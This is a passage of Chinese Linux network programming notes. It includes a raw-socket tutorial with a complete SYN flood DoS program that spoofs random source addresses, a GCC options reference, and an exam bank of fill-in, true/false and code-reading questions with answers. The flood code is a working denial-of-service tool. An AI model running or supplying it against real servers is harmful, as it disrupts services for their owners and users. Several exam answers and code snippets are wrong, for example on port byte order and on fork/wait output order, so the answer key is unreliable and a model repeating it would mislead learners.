         if(0>setsockopt(skfd,IPPROTO_IP,IP_HDRINCL,&on,sizeof(on))){
                perror("IP_HDRINCL failed");
                exit(1);
        }

        //因为只有root用户才可以play with raw socket :)
        setuid(getpid());
        srcport = atoi(argv[3]);
        attack(skfd,&target,srcport);
}

//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport){
        char buf[128]={0};
        struct ip *ip;
        struct tcphdr *tcp;
        int ip_len;

        //在我们TCP的报文中Data没有字段，所以整个IP报文的长度
        ip_len = sizeof(struct ip)+sizeof(struct tcphdr);
        //开始填充IP首部
        ip=(struct ip*)buf;

        ip->ip_v = IPVERSION;
        ip->ip_hl = sizeof(struct ip)>>2;
        ip->ip_tos = 0;
        ip->ip_len = htons(ip_len);
        ip->ip_id=0;
        ip->ip_off=0;
        ip->ip_ttl=MAXTTL;
        ip->ip_p=IPPROTO_TCP;
        ip->ip_sum=0;
        ip->ip_dst=target->sin_addr;

        //开始填充TCP首部
        tcp = (struct tcphdr*)(buf+sizeof(struct ip));
        tcp->source = htons(srcport);
        tcp->dest = target->sin_port;
        tcp->seq = random();
        tcp->doff = 5;
        tcp->syn = 1;
        tcp->check = 0;

        while(1){
                //源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
                ip->ip_src.s_addr = random();
                tcp->check=check_sum((unsigned short*)tcp,sizeof(struct tcphdr));
                sendto(skfd,buf,ip_len,0,(struct sockaddr*)target,sizeof(struct sockaddr_in));
        }
}

//关于CRC校验和的计算，网上一大堆，我就“拿来主义”了
unsigned short check_sum(unsigned short *addr,int len){
        register int nleft=len;
        register int sum=0;
        register short *w=addr;
        short answer=0;

        while(nleft>1)
        {
                sum+=*w++;
                nleft-=2;
        }
        if(nleft==1)
        {
                *(unsigned char *)(&answer)=*(unsigned char *)w;
                sum+=answer;
        }

        sum=(sum>>16)+(sum&0xffff);
        sum+=(sum>>16);
        answer=~sum;
        return(answer);
}
#+END_SRC

用前面我们自己编写TCP服务器端程序来做本地测试，看看效果。先把服务器端程序启动起来，如下：

[SOCK_RAW/raw_5.jpg]

 然后，我们编写的“捣蛋”程序登场了：

[SOCK_RAW/raw_6.jpg]

 该“mdos”命令执行一段时间后，服务器端的输出如下：

[SOCK_RAW/raw_7.jpg]

因为我们的源IP地址是随机生成的，源端口固定为8888，服务器端收到我们的SYN报文后，会为其分配一条连接资源，并将该连接的状态置为SYN_RECV，然后给客户端回送一个确认，并要求客户端再次确认，可我们却不再bird别个了，这样就会造成服务端一直等待直到超时。
备注：本程序仅供交流分享使用，不要做恶，不然后果自负哦。
最后补充一点，看到很多新手经常对struct ip{}和struct iphdr{}，struct icmp{}和struct icmphdr{}纠结来纠结去了，不知道何时该用哪个。在/usr/include/netinet目录这些结构所属头文件的定义，头文件中对这些结构也做了很明确的说明，这里我们简单总结一下：
struct ip{}、struct icmp{}是供BSD系统层使用，struct iphdr{}和struct icmphdr{}是在INET层调用。同理tcphdr和udphdr分别都已经和谐统一了，参见tcp.h和udp.h。
BSD和INET的解释在协议栈篇章详细论述，这里大家可以简单这样来理解：我们在用户空间的编写网络应用程序的层次就叫做BSD层。所以我们该用什么样的数据结构呢？良好的编程习惯当然是BSD层推荐我们使用的，struct ip{}、struct icmp{}。至于INET层的两个同类型的结构体struct iphdr{}和struct icmphdr{}能用不？我只能说不建议。看个例子：

[SOCK_RAW/raw_8.jpg]

我们可以看到无论BSD还是INET层的IP数据包结构体大小是相等的，ICMP报文的大小有差异。而我们知道ICMP报头应该是8字节，那么BSD层为什么是28字节呢？留给大家思考。也就是说，我们这个mdos.c的实例程序中除了用struct ip{}之外还可以用INET层的struct iphdr{}结构。将如下代码：
#+BEGIN_SRC c
struct ip *ip;
…
ip=(struct ip*)buf;
ip->ip_v = IPVERSION;
ip->ip_hl = sizeof(struct ip)>>2;
ip->ip_tos = 0;
ip->ip_len = htons(ip_len);
ip->ip_id=0;
ip->ip_off=0;
ip->ip_ttl=MAXTTL;
ip->ip_p=IPPROTO_TCP;
ip->ip_sum=0;
ip->ip_dst=target->sin_addr;
…
ip->ip_src.s_addr = random();
#+END_SRC

改成:

#+BEGIN_SRC c
struct iphdr *ip;
…
ip=(struct iphdr*)buf;
ip->version = IPVERSION;
ip->ihl = sizeof(struct ip)>>2;
ip->tos = 0;
ip->tot_len = htons(ip_len);
ip->id=0;
ip->frag_off=0;
ip->ttl=MAXTTL;
ip->protocol=IPPROTO_TCP;
ip->check=0;
ip->daddr=target->sin_addr.s_addr;
…
ip->saddr = random();

#+END_SRC

结果请童鞋们自己验证。虽然结果一样，但在BSD层直接使用INET层的数据结构还是不被推荐的。
小结：
1、IP_HDRINCL选项可以使我们控制到底是要从IP头部第一个字节开始构造我们的原始报文或者从IP头部之后第一个数据字节开始。
2、只有超级用户才能创建原始套接字。
3、原始套接字上也可以调用connet、bind之类的函数，但都不常见。原因请大家回顾一下这两个函数的作用。想不起来的童鞋回头复习一下前两篇的内容吧。

* GCC编译器使用

1.预处理,生成.i的文件[预处理器cpp]

2.将预处理后的文件不转换成汇编语言,生成文件.s[编译器egcs]

3.有汇编变为目标代码(机器代码)生成.o的文件[汇编器as]

4.连接目标代码,生成可执行程序[链接器ld]

gcc
-g 允许调试
-o 指定输出文件名
-pthread 以便使用线程相关头文件

[参数详解]
-x language filename
　 设定文件所使用的语言,使后缀名无效,对以后的多个有效.也就是根据约定C语言的后
缀名称是.c的，而C++的后缀名是.C或者.cpp,如果你很个性，决定你的C代码文件的后缀
名是.pig 哈哈，那你就要用这个参数,这个参数对他后面的文件名都起作用，除非到了
下一个参数的使用。
　　可以使用的参数吗有下面的这些
　　`c', `objective-c', `c-header', `c++', `cpp-output', `assembler', and `a
ssembler-with-cpp'.
　　看到英文，应该可以理解的。
　　例子用法:
　　gcc -x c hello.pig
　　
-x none filename
　　关掉上一个选项，也就是让gcc根据文件名后缀，自动识别文件类型
　　例子用法:
　　gcc -x c hello.pig -x none hello2.c
　　
-c
　　只激活预处理,编译,和汇编,也就是他只把程序做成obj文件
　　例子用法:
　　gcc -c hello.c
　　他将生成.o的obj文件

-S
　　只激活预处理和编译，就是指把文件编译成为汇编代码。
　　例子用法
　　gcc -S hello.c
　　他将生成.s的汇编代码，你可以用文本编辑器察看

-E
　　只激活预处理,这个不生成文件,你需要把它重定向到一个输出文件里面.
　　例子用法:
　　gcc -E hello.c > pianoapan.txt
　　gcc -E hello.c | more
　　慢慢看吧,一个hello word 也要与处理成800行的代码

-o
　　制定目标名称,缺省的时候,gcc 编译出来的文件是a.out,很难听,如果你和我有同感
，改掉它,哈哈
　　例子用法
　　gcc -o hello.exe hello.c (哦,windows用习惯了)
　　gcc -o hello.asm -S hello.c
-pipe
　　使用管道代替编译中临时文件,在使用非gnu汇编工具的时候,可能有些问题
　　gcc -pipe -o hello.exe hello.c
-ansi
　　关闭gnu c中与ansi c不兼容的特性,激活ansi c的专有特性(包括禁止一些asm inl
ine typeof关键字,以及UNIX,vax等预处理宏,
-fno-asm
　　此选项实现ansi选项的功能的一部分，它禁止将asm,inline和typeof用作关键字。
　　　　
-fno-strict-prototype
　　只对g++起作用,使用这个选项,g++将对不带参数的函数,都认为是没有显式的对参数
的个数和类型说明,而不是没有参数.
　　而gcc无论是否使用这个参数,都将对没有带参数的函数,认为城没有显式说明的类型

　　
-fthis-is-varialble
　　就是向传统c++看齐,可以使用this当一般变量使用.
　　
-fcond-mismatch
　　允许条件表达式的第二和第三参数类型不匹配,表达式的值将为void类型
　　
-funsigned-char
-fno-signed-char
-fsigned-char
-fno-unsigned-char
　　这四个参数是对char类型进行设置,决定将char类型设置成unsigned char(前两个参
数)或者 signed char(后两个参数)
　　
-include file
　　包含某个代码,简单来说,就是便以某个文件,需要另一个文件的时候,就可以用它设
定,功能就相当于在代码中使用#include<filename>
　　例子用法:
　　gcc hello.c -include /root/pianopan.h
　　
-imacros file
　　将file文件的宏,扩展到gcc/g++的输入文件,宏定义本身并不出现在输入文件中
　　
-Dmacro
　　相当于C语言中的#define macro
　　
-Dmacro=defn
　　相当于C语言中的#define macro=defn
　　
-Umacro
　　相当于C语言中的#undef macro
-undef
　　取消对任何非标准宏的定义
　　
-Idir
　　在你是用#include"file"的时候,gcc/g++会先在当前目录查找你所制定的头文件,如
果没有找到,他回到缺省的头文件目录找,如果使用-I制定了目录,他
　　回先在你所制定的目录查找,然后再按常规的顺序去找.
　　对于#include<file>,gcc/g++会到-I制定的目录查找,查找不到,然后将到系统的缺
省的头文件目录查找
　　
-I-
　　就是取消前一个参数的功能,所以一般在-Idir之后使用
　　
-idirafter dir
　　在-I的目录里面查找失败,讲到这个目录里面查找.
　　
-iprefix prefix
-iwithprefix dir
　　一般一起使用,当-I的目录查找失败,会到prefix+dir下查找
　　
-nostdinc
　　使编译器不再系统缺省的头文件目录里面找头文件,一般和-I联合使用,明确限定头
文件的位置
　　
-nostdin C++
　　规定不在g++指定的标准路经中搜索,但仍在其他路径中搜索,.此选项在创libg++库
使用
　　
-C
　　在预处理的时候,不删除注释信息,一般和-E使用,有时候分析程序，用这个很方便的

　　
-M
　　生成文件关联的信息。包含目标文件所依赖的所有源代码你可以用gcc -M hello.c
来测试一下，很简单。
　　
-MM
　　和上面的那个一样，但是它将忽略由#include<file>造成的依赖关系。
　　
-MD
　　和-M相同，但是输出将导入到.d的文件里面
　　
-MMD
　　和-MM相同，但是输出将导入到.d的文件里面
　　
-Wa,option
　　此选项传递option给汇编程序;如果option中间有逗号,就将option分成多个选项,然
后传递给会汇编程序
　　
-Wl.option
　　此选项传递option给连接程序;如果option中间有逗号,就将option分成多个选项,然
后传递给会连接程序.
　　
-llibrary
　　制定编译的时候使用的库
　　例子用法
　　gcc -lcurses hello.c
　　使用ncurses库编译程序
　　
-Ldir
　　制定编译的时候，搜索库的路径。比如你自己的库，可以用它制定目录，不然
　　编译器将只在标准库的目录找。这个dir就是目录的名称。
　　
-O0
-O1
-O2
-O3
　　编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高　
　 　　
-g
　　只是编译器，在编译的时候，产生调试信息。
　　
-gstabs
　　此选项以stabs格式声称调试信息,但是不包括gdb调试信息.
　　
-gstabs+
　　此选项以stabs格式声称调试信息,并且包含仅供gdb使用的额外调试信息.
　　
-ggdb
　　此选项将尽可能的生成gdb的可以使用的调试信息.
-static
　　此选项将禁止使用动态库，所以，编译出来的东西，一般都很大，也不需要什么
动态连接库，就可以运行.
-share
　　此选项将尽量使用动态库，所以生成文件比较小，但是需要系统由动态库.
-traditional
　　试图让编译器支持传统的C语言特性


* 试题集锦

** 填空题
1.基于TCP通信中,主动关闭连接的一方会在TIME_WAIT状态下等待 #2MSL# 长度的时间.因此主动关闭的一方程序无法马上重新启动并再次绑定相同的IP地址与端口.这时使用函数 #setsockopt# 并在参数中指定套接字选项 #SO_REUSEADDR#

2.名字到IP地址的解析使用的函数是 #gethostbyname# ,IP地址到域名的解析函数是 #gethostbyaddr#

3.为保证"大端"和"小端"字节序的机器之间能相互通信,需在发生多字节整数时,将主机字节序转换成 #网络字节序#

4.socket()函数可以创建三类套接字,分别是 #TCP套接字,UDP套接字,原始套接字#

5.bind(),connect()等函数在出错时均会返回-1,具体出错的原因的错误代码可以在全局变量 #errno# 中找到,调用 #perror# 可以将错误代码转换成为它对应的字符串信息.

6.在TCP连接中,若需要关闭某个方向的连接,可以使用函数 #shutdown#

7.gethostname(char *name, size_t namelen)函数的功能是 #返回当前主机的名字,name是指向主机名存储位置的指针,namelen是此数组的大小#

8.pselect(int maxfd, fd_set *readset, fd_set *writeset, fd_set *exceptset, const struct timeval *timeout, const sigset_t *sigmask)函数的maxfd参数的值是 #被测试描述字个数# , timeout参数定义的超时时间精确到 #微秒#, sigmask参数的作用是 #阻塞信号# ,
pselect函数的返回值有三种情况,返回值为0表示 #超时# ,返回值大于0表示 #已经准备好的描述符数# ,而返回值为-1时表示出错.

9.设置SO_KEEPALIVE选项的作用是 #保持连接检测对方主机是否崩溃,避免服务器永远陷入TCP连接的输入#

10.pthread_key_create(pthread_key_t *key, void (* destructor)(void *value))函数的作用是 #在函数内部分配一个TSD的关键字# , 其中destructor是 #可选的析构函数,可以和每个关键字联系# , value是 #与本线程相关的值# , value 的默认值是 #指向动态分配的内存区域#.

11.基于TCP协议的服务器端程序中,需要两个描述符,它们分别是由 #socket()# 函数创建的负责 #监听描述符用来监听一个端口,当有一个客户与服务器连接的时候,它使用这个端口号,而此时这个端口号正与这个套接字关联# 的描述符, 和由 #accept()# 函数创建的负责 #已连接描述符会默认阻塞进程,直到有一个客户连接建立后立即返回,它返回的是一个新可用的套接字,这个套接字是连接套接字# 的描述符.

13.函数bind返回的是一个常见错误:所绑定的地址被其他进程所使用,为解决这个问题,我们可以通过调用 #setsockopt# 函数, 并为该函数的Optname设置形参传递 #SO_REUSEADDR# 参数,避免这个错误

14.基于TCP套接字程序中,服务器可以通过 #accept# 函数返回与之通信的当前客户端的套接字地址结构

15.pthread_detach(pthread_t tid)的作用是将一个 #联合的# 线程变成 #可分离的# 线程.

17.linux操作系统中支持五种I/O模型,分别是 #I/O复用,异步I/O,驱动I/O,阻塞I/O模型和非阻塞I/O模型#

18.#pthread_key_create#函数在进程内部分配一个标志TSD的关键字,并且该函数其中一个形参是可选的析构函数,当系统调用该析构函数时,传递的形参是 #value#

19.INADDR_ANY调用bind的服务器,在接受连接后,调用 #getsockname# 函数获取系统选择的IP地址.

20.如果用户程序为发送网络数据报结构自己的IPv4头部,需创建 #原始# 套接字, 并且前提是: 调用 #socket# 函数,给套接字设置 #SOCK_RAW# 选项


** 判断题


1. [F] 在用pthread库编写的多线程程序中,若主线程退出,则主线程创建的新线程将继续运行

2. [F] 在TCP网络程序中,connect()函数用于客户端向服务器发起链接而在UDP网络程序中,由于UDP是面向无连接的,所以connect()函数不能用于UDP连接

3. [T] inet_ntoa()函数可以将32位的网络字节序二进制IPv4地址转换程相应的字符串形式的IP地址,但不能将二进制IPv6地址转换成相应的字符串形式的IP地址

4. [T] 服务器程序通常都会调用bind()函数以绑定监听地址,而客户端则很少调用它

5. [T] 当一个客户SYN到达时,若未完成连接队列和已完成连接队列都是满的,TCP就忽略此分节,且不发送RST

6. [F] 调用close()函数将立即关闭发送与接收这两个方向的TCP连接而不管将关闭的套接字的引用情况 (只是将计数减一不会引发TCP终止操作)

7. [F] 在TCP客户服务器通信中,若服务器端崩溃,则可以通过重启服务器让正在进行通信继续

8. [T] TCP迭代服务器在某一时刻最多只能存在一个客户端与之简历的通信连接,而并发服务器在某一时刻可以存在多个客户端与之的通信连接

9. [T] 互斥锁是一种专用于进程间数据同步的计数

10. [T] 当子进程正常或异常终止时,系统内核会向其父进程发送SIGCHLD信号(正常,结束,中断,或恢复执行内核都会发送 SIGCHLD)

11. [T] 可以使用原始套接口编程伪造IP数据包实现DoS攻击

12. [T] 在多进程编程中,父进程用于监听,子进程用于为已经连接客户端提供服务,则父进程必须关闭已连接套接字,子进程必须关闭监听套接字

13. [F] 调用bind()函数时,必须指明IP地址与端口号,而不能让内核来选择IP地址与端口号

14. [T] 调用select函数可以实现与sleep函数一样的延时功能

15. [T] connect()函数的作用是发起建立连接的请求

16. [T] 基于TCP协议的服务器端程序,可以通过accept()函数获得与之通信的客户端的IP地址和端口号

17. [F] 基于UDP协议的服务端和客户端程序,在接收和发送数据时,必须使用sendto()和recvform()函数(read write)

18. [T] fork()函数和vfork()函数都可以创建子进程,所以基于这两个函数都可以实现多进程并发服务器

19. [F] 线程可以调用exit()函数退出,而且对统一进程的其它线程不会造成影响(exit结束整个程序)

20. [F] pthread_join()可以等待任意线程的退出(不能等待任一线程结束)

21. [T] 标识线程专用数据的关键字key是进程唯一的.

22. [T] 使用I/O复用技术可以实现并发服务器

23. [F] 对SO_KEEPALIVE选项中时间参数的修改,会影响到主机中打开该选项的所有套接字(只针对相应的)

24. [F] gethostbyname(const char *hostname)函数不允许将IP地址作为函数的参数

25. [T] SO_LINGER选项可以改变TCP套接字关闭连接时的缺省行为

26. [T] 只要创建了原始套接字就可以自行构造IPv4的首部

27. [F] 可以对未加互斥锁的数据进行解锁

28. [T] 使用互斥锁可以保证,在同一时间内,只允许一个线程访问共享数据

29. [T] select()函数可以实现计时器功能

30. [F] 由确定通信的五元组(本地协议,本地IP,本地端口,远程协议,远程IP,远程端口)可知,该(本地TCP,本地IP,本地端口,远程UDP,远程IP,远程端口)六元组所标识网络中一个连接可以进行正常的网络通信

31. [F] 套接口是计算机操作系统为TCP/UDP协议与IP协议之间进行数据交互提供的接口,又称套接字(套接口与套接字是两个东西)

32. [T] 在IPv4套接字地址结构中,成员sin_port是用来存储主机字节顺序端口号

33. [T] 默认情况下,close函数将套接字的访问次数减1,并丢弃发送缓冲区和接受缓冲区的数据,仅在本次计数为0时才关闭套接字

34. [T] UDP套接字编程,调用recvfrom函数可以获得通信的对方的套接字地址结构

35. [F] wait()函数可以处理同时退出的多个线程在进行

36. [F] 一个线程的崩溃不会影响同一进程中的其他线程(线程没有自己的地址空间,非法地址读写崩溃,整个进程也是错误的)

37. [T] 在多线程并发服务器中,主线程生成子线程后,在主线程中要关闭已连接描述符,在子线程中要关闭监听描述字

38. [T] 标识线程专用数据的关键字key是进程唯一的

39. [T] stdin设为非阻塞后,不能使用标准输入输出函数操作该句柄,而要通过read来操作

40. [T] 非阻塞I/O的实现可以通过fcntl()来改变描述符的标志来实现

41. [T] I/O复用模型调用select或poll,进程阻塞于这两个系统调用上,而不是阻塞在真正的I/O系统调用上

42. [T] 在TCP服务器,为了接受更多的数据,可以在接收数据调用打开read函数时,临时更改套接字接受缓冲区的大小

43. [F] 改变某个描述符的SO_KEEPALIVE选项值,不会影响到主机上打开的其他描述符

44. [T] 只要创建了原始套接字就可以自行构造IP报文的首部

45. [F] 由确定通信的五元组(本地协议,本地IP,本地端口,远程协议,远程IP,远程端口)可知,该(本地TCP,本地IP,本地端口,远程UDP,远程IP,远程端口)六元组所标识网络中一个连接可以进行正常的网络通信

46. [F] 套接口是计算机操作系统为TCP/UDP协议与IP协议之间进行数据交互提供的接口,又称套接字

47. [F] 在TCP的客户端程序中,如果connect()函数调用失败,则还可以继续使用该套接字(套接字不能再使用必须关闭)

48. [T] 在IPv4套接字地址结构中,in_addr结构体中的s_addr成员,存储的便是我们主机字节序的32位IPv4地址

49. [F] vfork()函数创建子进程后,父进程和子进程谁先执行,这取决于内核所使用的调度算法,有可能父进程先于子进程执行,也有可能子进程先于父进程执行

50. [F] 在UDP套接字程序中,客户端与服务端通信时,必须使用sendto()和recvfrom()函数(write read)

51. [T] waitpid()函数可以处理同时退出的多个线程在进行

52. [F] 对于非阻塞I/O模型,进程从调用recvfrom函数,将数据从内核拷贝到用户空间整个过程都不会阻塞进程的执行(在数据拷贝的时候阻塞)

53. [T] 在多线程并发服务器中,为防止父子线程对描述符的操作造成混乱,在主线程创建子线程后,应在父线程中关闭已连接描述符

54. [T] 创建的子线程默认情况可联合的

55. [T] 在TCP的客户端程序中,为了接受更多的数据,可以在接收数据调用打开read函数时,临时更改套接字接受缓冲区的大小

56. [F] SO_SNDLOWAT用来设置套接字发送缓冲区的发送低潮,当发送缓冲区的现有数据量大于发送低潮时,便可以发送数据,select返回可写(小于时触发I/O)

** 阅读程序回答问题

*** 1.
#+BEGIN_SRC c -r -n
  int main(void)
  {
      pid_t pid;
      int status;
      if((pid = fork()) == 0)
      {
          sleep(2);
          printf("aaaaaaaaaa.\n");
          printf("bbbbbbbbbb.\n");
          sleep(2);
          printf("cccccccccc.\n");
          exit(0);
      }else if( pid > 0)
      {
          printf("dddddddddd.\n");
          printf("eeeeeeeeee.\n");
          exit(0);
      } else {
          printf("fork error.\n");
          exit(1);
      }
  }
#+END_SRC

(1) 在fork()函数调用成功的情况下,父进程的执行路径是什么?依次写出语句行号

1,2,3,4,5,13,14,15,16,17

(2) 在fork()函数调用成功的情况下,子进程的执行路径是什么?请依次写语句行号

1,2,3,4,5,6,7,8,9,10,11,12

(3) 请写出在调用成功的情况下,屏幕上的输出

dddd..
eeee..
aaaa..
bbbb..
cccc..


*** 2.
#+BEGIN_SRC c
  //头文件略
  int myglobal = 0;
  void * thread_function(void * arg) {
      int i,j;
      for (i = 0; i < 5; i++) {
          j = myglobal;
          j = j+1;
          sleep(1);
          myglobal = j;
      }
      return NULL;
  }

  int main(void) {
      pthread_t mythread;
      int i;
      if (pthread_create(&mythread, NULL, thread_function, NULL)){
          printf("error.\n");
          exit(1);
      }
      for (i = 0; i < 5; i++) {
          myglobal = myglobal + 1;
          sleep(1); //见问题3
      }
      printf("myglobal = %d.\n", myglobal);
      return 0;
  }
#+END_SRC

(1) 程序中新创建的线程执行那些语句?

pthread(create(&mythread, NULL, thread_function, NULL);

(2) 上述程序希望对myglobal加10,请问是否正确,请说明原因

不正确,答案不确定,若sleep函数稳定完成线程挂起功能,在主线程加一后进入子线程完成对j的增加后切回主线程myglobal增加这样的区别在于j的值始终比myglobal的值多1,基于理想情况在printf语句的时候,子线程已经完成了5次的赋值如果myglobal = j这条语句已经被执行那么就会对输出结果导致偏差

(3) 若上述带注释的sleep(1)语句删除,程序的输出结果是?请解释为什么

答案是5,主线程不存在挂起的时候,一直往下执行所以导致直接输出了主线程中的运算结果5


*** 3.
#+BEGIN_SRC c
  #include <stdint.h>
  #include <sys/time.h>
  #include <sys/types.h>
  #include <unistd.h>

  int main(void){
      fd_set rfds;
      struct timeval tv;
      int retval;
      char temp[100];
      FD_ZERO(&rfds);
      FD_SET(0, &rfds);
      tv.tv_sec = 5;
      tv.tv_usec = 0;
      retval = select(1, &rfds, NULL, NULL, &tv);
      if(FD_ISSET(0, &rfds)) {
          fget(temp, 100, stdin);
          printf("Data is available now.\n");
      }
      else {
          printf("No data arrive.\n");
          exit(0);
      }
  }

#+END_SRC
(1) FD_ZERO(&rfds)函数功能

初始化rfds,将rfds所有标志位置0

(2) FD_SET(0, &rfds) 函数功能

将rfds为0的描述字置1

(3) FD_ISSET(0, &rfds) 函数功能

检测rfds 为0的描述字是否为1

(4) select(1, &rfds, NULL, NULL, &tv) 函数功能

测试这一个描述字rfds,在rfds套接口准备好读,写,异常时延迟5秒返回


*** 4.
#+BEGIN_SRC c
  #include <unistd.h>
  #include <sys/types.h>
  #include <sys/wait.h>

  int main(void) {
      pid_t pid;
      if ((pid = fork()) == 0) {
          sleep(1);
          printf("child running.\n", );
          printf("child dead.\n");
          exit(0);
      }
      else if (pid > 0) {
          printf("parent running.\n");
          waitpid(pid, NULL, 0);
          printf("parent exit.\n");
      }
      else {
          printf("fork error.\n");
          exit(0);
      }
  }

#+END_SRC

(1) fork函数功能

以copy on write 方式建立子进程,在子进程中返回0 父进程中返回子进程id号

(2) waitpid(pid, NULL, 0)函数功能

获得pid子进程的终止状态

(3) 该程序运行后,其结果为

#+BEGIN_SRC

parent running.
child running.
child dead.
parent exit.

#+END_SRC


*** 5.
#+BEGIN_SRC c
  #include <stdio.h>
  #include <pthread.h>
  pthread_key_t key;
  void echomsg(int t) {
      printf("destructor exected in thread %d, param = %d.\n", pthread_self(), t);
  }

  void *childfun(void *arg) {
      int tid = pthread_self();
      printf("thread %d enter.\n", tid);
      printf("the key's %d .\n", pthread_getspecific(key));
      pthread_setspecific(key, (void *)tid);
      sleep(2);
      printf("thread %d key's %d.\n", tid, pthread_getspecific(key));
      sleep(5);
  }

  int main(void) {
      pthread_t child_tid;
      printf("the main tid is %d.\n", pthread_self());
      pthread_key_create(&key, (void *)echomsg);
      //创建子进程.线程执行函数为childfun,线程id保存到child_tid变量;
      pthread_create(&child_tid, NULL, childfun, NULL);
      //在上面空缺行填写一行代码
      pthread_join(child_tid, NULL);
      pthread_key_delete(key);
      printf("main thread exit.\n");
      return 0;
  }
#+END_SRC

假如程序运行后,主线程id为123456,子线程id为234567,请写出程序的运行结果:
the main tid is 123456.
thread 234567 enter.the key's 0 .
thread 234567 key's 234567.
destructor exected in thread 234567, param = 234567.
main thread exit.


*** 6.
补全代码

#+BEGIN_SRC c
  #include <stdio.h>
  #include <sys/time.h>
  #include <sys/types.h>
  #include <unistd.h>

  int main(void) {
      fd_set rfds;
      struct timeval tv;
      int retval;
      char temp[100];
      //补全代码
      FD_ZERO(&rfds);
      FD_SET(0,&rfds);
      //在上空缺处补全两行代码
      tv.tv_sec = 5;
      tv.tv_usec = 0;
      //
      retval = select(1, &rfds, NULL, NULL, &tv);
      //在上空缺处补全一行代码
      if(FD_ISSET(0, &rfds)){ //括号中补全代码
          fget(temp, 100, stdin);
          printf("Data is avaliable now.\n");
      }
      else {
          printf("No data arrive.\n");
          exit(0);
      }

  }

#+END_SRC


*** 7.
补全代码

#+BEGIN_SRC c
  #include <pthread.h>
  #include <stdlib.h>
  #include <unistd.h>

  void *thread_function(void *arg) {
      int i;
      for (i = 0; i < 2; i++) {
          printf("Thread says hi!.\n");
          sleep(1);
      }
      return NULL;
  }

  int main(void) {
      pthread_t childthread;
      printf("main thread enter.\n");
      if (pthread_create(&childthread, NULL, thread_function, NULL)) { //补全括号内,创建子线程,线程id保存在childthread中,线程函数为thread_function
          printf("error creating thread.\n");
          exit(1);
      }
      if (pthread_join(childthread, NULL)) { // 括号内补全代码,等待子线程chrildthread结束,获得释放子线程状态信息
          printf("error joining thread.\n");
          exit(1);
      }
      printf("main thread exit.\n");
      exit(0);
  }
#+END_SRC

程序运行正常写出结果


*** 8.
写出下面函数的作用
#+BEGIN_SRC c
int flag
//(1)
flags = fcntl(fileno(stdin), F_GETFL, 0);

//(2)
flags |= O_NONBLOCK;
//(3)
fcntl(fileno(stdin), F_SETFL, flags);
#+END_SRC

(1)

获取标准输入的文件描述符

(2)

将flags增加非阻塞模式

(3)

重新设置标准输入的文件描述符为flags 即变为非阻塞模式


*** 9.
下面是UDP服务端程序
#+BEGIN_SRC c
  int sockfd;
  struct sockaddr_in server, client;
  int sin_size, num;
  char msg[MAXDATASIZE];
  //然后省略了完成套接字创建和绑定
  while(1) {
      //第一行接受客户端数据,保存在msg缓冲区中
      recvfrom(sockfd, msg, MAXDATASIZE, 0, (struct sockaddr *)&client, &(sizeof(client)))
      //第二行,打印客户端端口号
      printf("You got a massage from client.port is %d.\n", htonl(client.sin_port));
      //
  }
#+END_SRC


*** 10.
TCP服务端
#+BEGIN_SRC c
  struct sockaddr_in servaddr, cliaddr;
  socklen_t len;
  int sockfd1, sockfd2;
  //省略套接字创建和绑定和监听
  //获得客户端连接请求
  connfd = accept(listenfd, (struct sockaddr*)&cliaddr, &len)
  //
  if(connfd == -1) {
      //省略出错处理
  }
  //打印已连接客户端IP地址
  printf("You got a message from client.IP is %s", inet_ntoa(cliaddr.sin_addr));
  //
#+END_SRC


*** 11.
#+BEGIN_SRC c
  #include <sys/socket.h>
  #include <stdio.h>

  int main(void) {
      int sockfd;
      //省略套接子创建,创建的套接字保存在sockfd中
      int opt = 1;
      //重用本地地址
      setsockopt(sockfd, SOL_SOCKET, SO_REUESADDR, &opt, sizeof(opt));
      //获得套接字接受缓冲区大小,保存到opt中
      opt = recv(sockfd, recvbuf, MAXDATASIZE, 0)
      //打印输出缓冲区大小
      print("The size of buf is %d", opt);
      //
      fflush(stdout);
      close(listenfd);
  }
#+END_SRC


*** 12.
原始套接字
#+BEGIN_SRC c
  //省略头文件
  int main(int argc, char **argv) {
      int sockfd;
      int on;
      on = 1;
      //构造IPv4,UDP的原始套接字保存在sockfd
      sockfd = socket(AF_INET, SOCK_RAW, 0);
      //设置套接字IP_HDRINCL选项,由用户填写网络协议层头部
      setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on));
      //
      close(sockfd);
      return 0;
  }
#+END_SRC


*** 13.
UDP客户端
#+BEGIN_SRC c
  //省略头文件
  #define PORT 1234
  int main(int arg, char *argv[]) {
      int fd, numbytes;
      char buf[MAXDATASIZE];
      struct hostent *he;
      struct sockaddr_in server, reply;
      if (argc != 3) {
          printf("Usage: %s <IP address> <Message>\n", argv[0]);
          exit(1);
      }
      if (he = gethostbyname(argv[1]) == NULL) {
          perror("gethostbyname error.\n");
          exit(1);
      }
      //省略创建UDP套接字,创建套接字保存在fd

      bzero(&server, sizeof(server));
      server.sin_family =  AF_INET;//补全
      server.sin_port = htons(PORT);//
      server.sin_addr = htonl(INADDR_ANY);//
      //一行代码,完成客户端向服务端发送数据
      sendto(fd, argv[2], strlen(argv[2]), 0, (struct sockaddr *)&server, sizeof(server))
      //
      close(fd);
      return 0;
  }
#+END_SRC

简述gethostbyname 函数功能,并指出当参数为点分十进制字符串时如何操作

该函数如果执行成功就返回一个指向结构hostent的指针,如果失败返回空指针

如果是点分十进制的值,函数不会执行查询操作,返回结构体中h_name是该参数的拷贝,h_addr_list[0]就是该参数对应的整形网络字节序(相当与inet_pton(AF_INET*, name, dst))

*** 14.
#+BEGIN_SRC c
  //省略头文件
  int main(void) {
      pid_t result = fork();
      if(result == -1) {
          perror("fork");
          exit;
      }
      else if(result == 0) {
          sleep(3);
          printf("child.\n");
          exit(0);
      }
      else {
          wait(result);
          printf("parent.\n");
          exit;
      }
  }
#+END_SRC

(1) 假如程序不出错执行,请写出程序的执行结果
parent.
child.

(2) 简述TCP的多进程并发服务器,服务器的编程流程

1. 创建套接字
2. 设置套接字
3. bind套接字
4. listen套接字
5. accpet套接字
6. fork()
7. 父进程关闭已连接套接字,子进程关闭监听套接字
8. 子进程处理,父进程继续监听
9. 子进程完成后退出



*** 15.
假如,主线程id号是12345678,子线程child_tid1的线程id号是987654321,子线程child_tid2的线程id是87654321
#+BEGIN_SRC c
  #include <stdio.h>
  #include <pthread.h>

  pthread_key_t key;
  pthread_once_t once = PTHREAD_ONCE_INIT;
  static void printfun(void) {
